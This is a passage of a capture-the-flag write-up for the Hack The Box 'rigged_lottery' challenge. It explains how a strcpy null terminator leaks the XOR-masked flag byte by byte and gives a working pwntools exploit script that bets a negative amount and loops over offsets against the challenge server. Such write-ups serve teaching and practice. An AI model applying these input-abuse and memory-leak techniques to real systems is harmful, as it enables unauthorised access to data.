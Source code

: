 So, we get the flag if `prize_flag` is true or if we have more than 100 coins.  It's pretty trivial to get more than 100 coins which makes it quite unfortunate that what we actually get is the flag bitwise XORed with our lucky number.  

## putting it all together

So, we can print out the flag XORed with our lucky number but where do we go from there?  It's populated with random bytes at startup and attacking `/dev/urandom` would be tough at best.  If you'll recall, the generate function uses `strcpy` to copy the randomly generated bytes into `lucky_number` which will always copy a null terminator also.  This means that if generate n random bytes then there will be a null byte in `lucky_number[n]` which means we can leak a single byte of the flag.  We can then just do this multiple times to leak every character and then attach them together.  

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("rigged_lottery")

context.binary = exe


def conn():
    if args.LOCAL:
        return process([exe.path])
    else:
        return remote("docker.hackthebox.eu", 30269)


def main():

    buf = ""
    for i in range(len(buf),32):
        r = conn()
        r.recvuntil("4. Exit.\n")
        r.sendline("2")
        r.sendline("-300")
        r.recvuntil("4. Exit.\n")
        r.sendline("1")
        r.sendline(str(i))
        r.recvuntil("4. Exit.\n")
        r.sendline("3")
        r.recvuntil("prize!!\n\n")
        res = r.recvall()
        buf += chr(res[i])
        print(buf)

if __name__ == "__main__":
    main()
```
